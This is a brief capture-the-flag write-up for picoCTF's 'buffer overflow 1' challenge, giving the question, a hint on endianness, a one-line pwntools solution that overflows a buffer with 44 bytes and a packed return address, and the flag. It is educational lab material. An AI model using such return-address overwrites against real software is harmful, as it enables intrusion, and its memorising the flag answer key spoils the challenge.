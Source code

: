 # buffer overflow 1
Points: 200

## Category
Binary Exploitation

## Question
>Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this program? You can find it in /problems/buffer-overflow-1_3_af8f83fb19a7e2c98e28e325e4cacf78 on the shell server. Source. 

### Hint
>This time you're actually going to have to control that return address!
>
>Make sure you consider Big Endian vs Little Endian.

## Solution
Do `python -c "from pwn import *; print 'A' * 44 + p32(0x80485cb)" | ./vuln`

### Flag
`picoCTF{addr3ss3s_ar3_3asy65489706}`
